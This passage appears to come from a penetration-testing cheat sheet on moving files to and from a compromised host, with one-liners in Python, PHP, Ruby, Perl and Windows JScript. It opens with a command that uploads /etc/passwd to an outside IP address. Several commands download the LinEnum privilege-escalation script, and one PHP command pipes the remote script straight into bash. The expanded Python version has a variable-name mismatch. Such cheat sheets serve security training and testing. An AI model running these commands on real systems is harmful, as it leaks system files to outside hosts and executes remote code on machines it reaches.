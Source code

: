 1. **Uploading a File Using a Python One-liner**
```bash
python3 -c 'import requests;requests.post("http://13.13.13.13:8000/upload",files={"files":open("/etc/passwd","rb")})'
```
1. **Oneliner in few lines for better understanding**
```python
# To use the requests function, we need to import the module first.
import requests 

# Define the target URL where we will upload the file.
URL = "http://13.13.13.13:8000/upload"

# Define the file we want to read, open it and save it in a variable.
file = open("/etc/passwd","rb")

# Use a requests POST request to upload the file. 
r = requests.post(url,files={"files":file})
```


### PHP
1. **PHP Download with File_get_contents()**
```bash
php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```
2. **PHP Download with Fopen()**
```bash
php -r 'const BUFFER = 1024; $fremote = 
fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```
3. **PHP Download a File and Pipe it to Bash**
```bash
php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```
### Ruby
- **Ruby - Download a File**
```bash
ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
```
### Perl
- **Perl - Download a File**
```bash
perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'
```

### JavaScript
Based on [this](https://superuser.com/questions/25538/how-to-download-files-from-command-line-in-windows-like-wget-or-curl/536400#536400) post, you could make `wget.js` file:
```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```